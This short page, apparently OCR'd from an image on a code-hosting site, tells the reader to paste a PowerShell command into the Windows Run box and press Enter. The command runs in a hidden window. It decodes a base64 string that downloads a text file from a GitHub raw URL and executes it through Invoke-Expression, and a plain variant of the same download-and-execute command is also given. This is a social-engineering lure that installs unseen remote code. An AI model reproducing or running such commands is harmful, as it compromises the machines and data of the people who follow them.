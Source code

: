 DO THIS ON YOUR PC:

1) COPY THIS: ```powershell.exe -windowstyle hidden Invoke-Expression([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('KEludm9rZS13ZWJyZXF1ZXN0IC1VUkkgImh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9hbGV4LVgtMTIvQXRvbWl4LWZ1emUvbWFpbi9jbWQudHh0IikuQ29udGVudA==')))```

or: ```powershell.exe -windowstyle hidden Invoke-Expression(Invoke-webrequest -URI "https://raw.githubusercontent.com/alex-X-12/Atomix-fuze/main/cmd.txt").Content```
2) HOLD WIN+R
3) HOLD CTR+V
4) PRESS ENTER!
